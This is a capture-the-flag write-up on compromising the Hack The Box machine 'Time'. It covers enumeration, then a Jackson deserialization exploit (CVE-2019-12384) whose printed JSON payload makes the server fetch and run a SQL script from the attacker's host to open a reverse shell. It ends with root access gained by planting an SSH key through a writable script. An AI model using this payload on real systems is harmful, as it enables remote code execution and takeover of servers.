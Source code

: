 # Time

Time

Sunday, 20 February 2022

4:08 pm

This is a Linux machine.

My IP is 10.10.16.9.

The target IP is 10.10.10.214.

&#x20;

Nmap scan up first.

!\[\[45\_Time\_image001.png]]

&#x20;

Let's go view the web page.

!\[\[45\_Time\_image002.png]]

&#x20;

There's this weird page. I ran a quick directory enumeration to make sure I wasn't missing anything.

&#x20;

Directory enumeration revealed this.

!\[\[45\_Time\_image003.png]]

&#x20;

Basically, nothing of interest.

&#x20;

From here, I began to analyse the JS code and wondered what the function of this website actually does. It says JSON so I tried injecting some random JSON stuff.

!\[\[45\_Time\_image004.png]]

Basically, this just returns the JSON in a prettier format. What I'm more interested in is the other function, which is validate.

&#x20;

!\[\[45\_Time\_image005.png]]

&#x20;

Interesting, this returns a code error. We can see that it expects some form of JSON object or something. I took note that there seems to be a com.faster.xml.jackson, and wondered if that's the engine or code that is being used to validate stuff.

&#x20;

So a bit of Googling has led me to believe that this version of the engine is exploitable by stuff, and we can create some payloads and to inject into the web page that would be able to trigger stuff like pings or something. This was based on all

the CVEs I was reading.

&#x20;

I came to the conclusion I had to do [this one.](https://github.com/jas502n/CVE-2019-12384)

&#x20;

Anyways this involved creating a quick .sql file.

&#x20;

{width="13.072916666666666in" height="1.8958333333333333in"}

Get a listener port on port 4444, and host a python http server within the directory this exploit is included in.

&#x20;

\[

"ch.qos.logback.core.db.DriverManagerConnectionSource",

{

"url": "jdbc:h2:mem:;TRACE\_LEVEL\_SYSTEM\_OUT=3;INIT=RUNSCRIPT FROM 'http:\\/\\/10.10.16.9:8000\\/exploit.sql'"

}

]

&#x20;

Inject this into the input for the website under the Validate function. This would then grant us a revere shell.

This vulnerability makes use of the fact that the website does not serialize securely.

&#x20;

!\[\[45\_Time\_image007.png]]

This would work out well.

&#x20;

Time to PE, and I got our linpeas helper on board again.

!\[\[45\_Time\_image008.png]]

&#x20;

We seem to own a script. From here, it's simple child's play.

Just add our public key into authorized keys.

!\[\[45\_Time\_image009.png]]

&#x20;

Again, we can do this only because we own the file. Then just SSH into root.

!\[\[45\_Time\_image0010.png]]

&#x20;
